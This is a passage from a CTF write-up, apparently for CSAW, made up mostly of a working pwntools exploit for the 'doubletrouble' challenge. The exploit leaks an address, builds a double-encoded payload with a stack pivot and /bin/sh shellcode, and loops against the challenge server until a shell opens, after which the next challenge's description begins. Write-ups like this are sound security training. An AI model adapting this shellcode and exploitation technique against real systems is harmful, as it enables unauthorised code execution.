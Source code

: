 ```python
		sh = process('./doubletrouble')#env={'LD_PRELOAD':'./libc.so.6'}
		shstr = "/bin/sh\x00"
		gdb.attach(sh)
	else:
		sh = remote("pwn.chal.csaw.io", 9002)
		shstr = "/bin/sh\x00"
	sh.recvuntil("0x")
	leak = int(sh.recv(8),16)
	arr = leak + DOUBLE_OFF
	smallest = make_ieee_double(1020, arr + 0x20)
	bigger = make_ieee_double(800, 0xdeadbeef)

	payload = [smallest] * 4 + [-50.0] + [to_double((LEAVE_RET << 32) + arr - 4)] * 2 + make_shellcode(shstr)
	payload += [bigger] * (64-len(payload))
	assert len(payload) == 64
	sh.recvuntil("How long: ")
	sh.send(str(len(payload)) + "\n")
	for n in payload:
		sh.recvuntil("Give me: ")
		sh.send(repr(n) + "\n")
	sh.recvuntil("Sorted Array:")
	ret = sh.recvuntil("terminated\r\n", timeout = 3.0)
	if ret == '':
		sh.interactive()
	else:
		return sh

while True:
	try:
		exploit().close()
	except Exception as e:
		print "failed"
```

## 250 Pwn / turtles ##

**Description**

> Looks like you found a bunch of turtles but their shells are nowhere to be seen! Think you can make a shell for them?
> 
> `nc pwn.chal.csaw.io 9003`
> 
> Update (09/14 6:25 PM) - Added libs.zip with the libraries for the challenge

**Files provided**

 - [turtles](files/turtles)
 - [libs.zip](https://ctf.csaw.io/files/f8d7ea4fde01101de29de49d91434a5a/libs.zip) (too large to host)
